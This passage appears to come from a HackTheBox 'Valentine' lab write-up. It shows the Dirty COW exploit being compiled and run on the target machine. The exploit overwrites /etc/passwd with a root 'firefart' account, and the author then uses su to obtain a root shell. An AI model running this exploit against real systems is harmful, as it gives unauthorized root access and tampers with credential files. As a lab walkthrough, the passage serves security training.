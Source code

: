     Copied to: ~/hackthebox/valentine-10.10.10.79/40839.c
    

Uploaded to the box, compile, and run:

    hype@Valentine:/dev/shm$ gcc -pthread dc.c -o c -lcrypt
    
    hype@Valentine:/dev/shm$ file c
    c: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xe2dea237b60ba9dc122a44d0505f9796b0b8a159, not stripped
    hype@Valentine:/dev/shm$ chmod +x c
    hype@Valentine:/dev/shm$ ./c
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password:
    Complete line:
    firefart:fifdjzBMn8d5E:0:0:pwned:/root:/bin/bash
    
    mmap: 7f004ef9b000
    
    
    hype@Valentine:/dev/shm$ su firefart
    Password:
    
    firefart@Valentine:/dev/shm# id
    uid=0(firefart) gid=0(root) groups=0(root)
    

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2018/07/28/htb-valentine.html)